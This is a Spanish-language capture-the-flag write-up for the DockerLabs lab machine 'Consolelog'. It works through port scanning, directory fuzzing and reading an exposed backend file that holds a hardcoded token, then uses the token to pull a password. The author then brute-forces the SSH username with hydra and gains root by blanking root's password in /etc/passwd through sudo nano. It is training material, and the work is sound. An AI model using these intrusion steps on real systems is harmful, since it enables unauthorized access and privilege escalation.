# 🧠 Informe de Pentesting: Máquina `Consolelog` – Nivel Fácil

---

## 🎯 Objetivo

Explotar la máquina vulnerable `Consolelog` descargada desde la página de DockerLabs, con el objetivo de obtener acceso root.

---

## 📝 Descripción

Esta máquina simula un entorno real con múltiples servicios corriendo en distintos puertos. Nuestro objetivo es reconocer los servicios expuestos, encontrar vulnerabilidades y escalarlas hasta obtener control total sobre el sistema.



---

## 🐳 Despliegue de la Máquina

1. Descargamos la máquina desde la página de [DockerLabs](https://dockerlabs.es/).
2. La descomprimimos con el comando:

```bash
unzip consolelog.zip
```

3. Luego la desplegamos con:

```bash
sudo bash auto_deploy.sh consolelog.tar
```



---

## 📡 Comprobación de Conectividad

Hacemos un `ping` a la dirección IP de la máquina vulnerable para verificar que está activa:

```bash
ping -c1 172.17.0.3
```



---

## 🔎 Escaneo de Puertos

Ejecutamos un escaneo completo de puertos con `nmap` para identificar los servicios disponibles:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Resultado:

```
PORT     STATE SERVICE
80/tcp   open  http
3000/tcp open  ppp
5000/tcp open  upnp
```



---

## 🧪 Detección de Versiones y Servicios

Usamos nuestro script `extractPorts` para extraer los puertos del archivo `allPorts.txt`, y luego lanzamos un escaneo más profundo:

```bash
nmap -sC -sV -p80,3000,5000 172.17.0.3 -oN target.txt
```



---

## 🌐 Análisis de los Servicios Web

### Puerto 80

Al abrir el navegador en `http://172.17.0.3:80`, no encontramos contenido relevante ni funcionalidad explotable.



### Puerto 3000

En `http://172.17.0.3:3000`, vemos una interfaz pero sin funcionalidades o vulnerabilidades evidentes.



---

## 🕵️‍♂️ Fuzzing con Gobuster

Realizamos un **fuzzing de directorios** con `gobuster` para descubrir rutas ocultas en el servidor web:

```bash
gobuster dir -u http://172.17.0.3/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x php,html,txt
```

Se descubren los siguientes directorios:

* `/index.html`
* `/backend`
* `/javascript`

Luego, repetimos el fuzzing en `/javascript`:

```bash
gobuster dir -u http://172.17.0.3/javascript -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Rutas encontradas:

* `/events`
* `/util`
* `/async`

A pesar de encontrar múltiples directorios, no hallamos vulnerabilidades claras, hasta que accedemos al contenido en `/backend`.





---

## 📁 Análisis de `server.js`

Al revisar el archivo `http://172.17.0.3/backend/server.js`, encontramos código fuente del backend. Ahí se define un endpoint vulnerable:

```js
app.post('/recurso/', (req, res) => {
    const token = req.body.token;
    if (token === 'tokentraviesito') {
        res.send('lapassworddebackupmaschingonadetodas');
    } else {
        res.status(401).send('Unauthorized');
    }
});
```

Este endpoint espera un token específico. Si lo recibe, revela una contraseña.



---

## 🎯 Explotación del Endpoint `/recurso/`

Realizamos una solicitud `POST` con `curl` para obtener la contraseña secreta:

```bash
curl -X POST http://172.17.0.3:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'
```

Respuesta del servidor:

```
lapassworddebackupmaschingonadetodas
```



---

## 🔓 Fuerza Bruta de Usuario SSH

Ya que tenemos la contraseña, ahora buscamos el **usuario** que la utiliza. Lo hacemos con `hydra`, usando `rockyou.txt` como diccionario de usuarios y especificando el puerto `5000` para SSH:

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.3:5000 -t 4
```

Resultado:

```
[5000][ssh] host: 172.17.0.3   login: lovely   password: lapassworddebackupmaschingonadetodas
```



---

## 🔑 Acceso a la Máquina por SSH

Conectamos vía SSH al puerto 5000:

```bash
ssh -p 5000 lovely@172.17.0.3
```

Una vez dentro, ejecutamos:

```bash
sudo -l
```

Resultado:

```
(ALL) NOPASSWD: /usr/bin/nano
```

Esto significa que podemos usar `nano` con permisos de superusuario **sin contraseña**, una excelente oportunidad para escalar privilegios.

---

## ⬆️ Escalada de Privilegios a Root

Usamos `nano` para editar `/etc/passwd`:

```bash
sudo nano /etc/passwd
```

Editamos la línea:

```
root:x:0:0:root:/root:/bin/bash
```

Y la dejamos así (eliminamos la `x` para quitarle la contraseña):

```
root::0:0:root:/root:/bin/bash
```

Guardamos con `Ctrl + O`, cerramos con `Ctrl + X`.

Luego, ejecutamos:

```bash
su root
```

Y accedemos directamente como **root** sin necesidad de contraseña.

> ❗ Nota: Si ves el error `Error opening terminal: xterm-kitty`, significa que el sistema no reconoce tu tipo de terminal. Puedes solucionarlo ejecutando:

```bash
export TERM=xterm
```



---

## ✅ Conclusión

* Descubrimos un **token hardcodeado** en el código fuente accesible vía web.
* Ese token nos dio acceso a una contraseña importante.
* Realizamos un ataque de **fuerza bruta** para encontrar un nombre de usuario válido para SSH.
* Aprovechamos la configuración de **sudo sin contraseña** para `nano`.
* Escalamos privilegios a **root** modificando el archivo `/etc/passwd`.

---
